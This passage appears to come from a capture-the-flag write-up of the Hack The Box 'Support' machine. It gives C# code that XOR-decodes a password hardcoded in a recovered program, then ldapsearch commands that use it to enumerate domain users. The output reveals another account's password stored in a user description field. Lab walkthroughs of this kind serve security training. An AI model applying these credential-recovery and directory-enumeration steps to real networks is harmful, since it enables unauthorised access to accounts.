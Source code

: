 An [online C# compiler](https://dotnetfiddle.net/) can be used to recompile the code and print the decrypted password.

```csharp
using System;
using System.Text;

public class Example {
    public static void Main()
    {
	string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
	byte[] key = Encoding.ASCII.GetBytes("armando");
	byte[] array = Convert.FromBase64String(enc_password);
	byte[] array2 = array;
		for (int i = 0; i < array.Length; i++)
		{
			array2[i] = Convert.ToByte(array[i] ^ key[i % key.Length] ^ 223);
		}
	//return Encoding.Default.GetString(array2);
	Console.WriteLine(Encoding.Default.GetString(array2));
	}
}
```

## User

### LDAP query

To list out all users in the domain:

{% code overflow="wrap" %}
```shell
ldapsearch -H ldap://10.10.11.174 -D '[DOMAIN]\[USER]' -w '[PASSWORD]' -b "DC=support,DC=htb" '(objectClass=Person)'
```
{% endcode %}

Lets look at support user's detail first. Why support? Because of the machine name and support folder in SMB.

```shell
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(objectClass=Person)' | grep 'sAMAccountName: support' -B36
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220915030442.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 81983
company: support
streetAddress: Skipper Bowles Dr
name: support
```